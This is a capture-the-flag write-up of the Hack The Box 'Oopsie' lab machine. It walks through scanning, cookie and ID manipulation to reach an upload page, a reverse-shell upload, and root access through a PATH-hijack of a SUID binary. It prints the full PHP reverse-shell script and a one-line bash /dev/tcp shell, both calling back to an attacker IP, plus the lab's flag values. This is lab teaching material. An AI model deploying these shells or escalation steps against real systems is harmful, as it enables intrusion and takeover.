

# Oopsie

- Victim host : 10.10.10.28
## Recon

- nmap scan victim server 
```
nmap -sV -O -sS 10.10.10.28    
```


- The result show us that there are 2 ports open 
    1. ssh open on port 22
    2. HTTP web server open on port 80 (wihtour SSL)
        - run on httpd 2.4.29


- Now we know there is a web server running , let's browse it and dig more information .


    
    All the button in this page seems not work.
    but the page source just show up the login page under the /cdn-cgi
    


    but we can't know the account information 
    Let's try to use the dirb or gobuster to find the page in this site .

- Let's use the gobuster to find the page in this website 

    We find the page /cdn-cgi/login, it seems a login page,
    we can guess the account maybe is admin,
    because there is a email under the main page is admin@megacorp.com
    but  I stuck in here , since we don't konw the password 
    but if we keep thinking and finding , 
    we'll find that this challenge is after the Archetype
   
```
# gobuster dir -u http://10.10.10.28/ -w /usr/share/wordlists/dirb/common.txt
```
- [Gobuster](https://github.com/OJ/gobuster)


    the most interesting page in gobuster result is /upload
    but it seems need permission to access those page 
    and I still can figure out the password for admin account.
    So, Let's try another information Gathering Tool,
    a web server scanner - Nikto to scan the web server 
    to find out another information about the login page.

- [Nikto](https://github.com/sullo/nikto)


```
nikto -Tuning x 6 -host http://10.10.10.28/cdn-cgi/login/index.php
```
- [SIPS vulnerability ](https://www.exploit-db.com/exploits/22381)


    The result of nikto tool show us that the server has SIPS vulnerability , so let's find more information for this vulnerability by google
        
    But it seems can be used easily,
    then I just got an information about this problem in other write-ups , some people said that the problem need the infromation from last problem . 


- so let's try to use the password we found in the Archetype (MEGACORP_4dm1n!!)


    It's a Repair Management System.
    Let's go through the function in admin page 


    Now, we know the upload function need the superuser permission

- Let's observe the cookie
    - user : user ID
    - role : user role (now is admin)
        


    we try to change the role to superadmin, 
    but the user ID doesn't correspond to correct one, 
    then the upload page still can view

    So, we need to find out the superadmin's information
    
## Exploit 

-- Let's observe the following URL

```
http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1
```

    The application use the id parameter to query the specific user , for example the query id = 1 is admin.


- Let's use burp intruder to find out the superuser
- the superadmin's userID is 86575


- Change it to the cookie , the upload page can be used.


## Exploit Payload


    So far, we have found the upload page , 
    Then we can exploit the server by upload reverse shell

- here are 2 sample 
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.17';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

- short web shell 

```
<?php


exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.17/4444 0<&1'")

?>
```

    I prefer to use first one for this question.
    
    
- Upload the reverse shell to victim server 


- Execute it 


- Start the nc to get the reverse shell connection 

```
# nc -lv -p 4444
```


    For keep the connection and make the connection quality better
    
```
SHELL=/bin/bash script -q /dev/null
```


    Now, we can access to the victim sever by reverse shell 
    but our user permission is www-data
    
    


    With this permission, we can get the first flag in /home/robert/user.txt
    
    
- Get first flag :``` f2c74ee8db7983851ab2a96a44eb7981```


## Escalation Privilege 

    Now we are in the victim server with www-data permission 
    and we know under the home directory 
    there is a user named robert 
    
- Obsereving the robert's permission

```
id robert
```


    Here are intresting things in this command result 
    the groups part have addtional group for robert 
    which is bugtracker


- Find out the robert's account information

```
cat /var/www/html/cdn-cgi/login/db.php
```


    we dig into the web directory (/var/www/html)
    and we can find the login page under /cdn-cgi
    besides that , there are db.php in the login directory
    so we view this file and find the robert's account informaion 
    
    
- Let's change to user robert

```
su robert
```


- Let's find what's file or directory that the group- bugtracker can view 

```
find / -type f -group bugtracker 2>/dev/null
```


    with this result ,
    Let's look up what's the ability of /usr/bin/bugtracker


    It's seems a bug tracking application 
    with bug id, it can print out the bug description

- Let's strings out this application , and find what's the clue can be found

```
# strings /usr/bin/bugtracker
```


    Here are a cat command to print the report in /root
    So, if we want to escalate the previlege and get higher previlege,
    we should use this application's cat command
    


- Let's do some prepare for escalation

```
# env
```


```
# export PATH=/tmp:$PATH
```


```
# cd /tmp
# echo '/bin/sh' > cat
# chmod +x cat
```


- Now , let's execute bugtracker again, got the shell and permission is root



- Then we move into /root to find the second flag

```
# cd /root
# head root.txt
```


- Second Flag : ```af13b0bee69f8a877c3faf667f7beacf```

## Post exploitation

    For the pentration test in real life , 
    it's better to find more information when you hack into a system 
    So, try to dig more information in root directory 
    we find the .config file 


    In this hidden file , we find the filezilla's login account information 
    


## Reference 

- [Reverse webshell- 一句話木馬](https://ppfocus.com/0/dia5c3146.html)
- [Revese Shell php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [SIPS vulnerability](https://www.exploit-db.com/exploits/22381)
- [Mysql by command](https://www.a2hosting.com/kb/developer-corner/mysql/connect-to-mysql-from-the-command-line)
- [Nikito introduction](https://www.netadmin.com.tw/netadmin/zh-tw/technology/418FFEE00EF8456BB42DDA0C90C42600)

- [Nikto Github](https://github.com/sullo/nikto)
- [Gobuster GitHub](https://github.com/OJ/gobuster)

- [Nikto 教學](https://zhuanlan.zhihu.com/p/124246499)
- [Write up 1](https://www.linkedin.com/pulse/hack-box-starting-point-oopsie-nathan-barnes)
- [Write up 2](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Oopsie)
- [Write up 3](https://secinject.wordpress.com/2021/04/11/htb-oopsie-writeup/)

###### tags: `HackTheBox` `linux`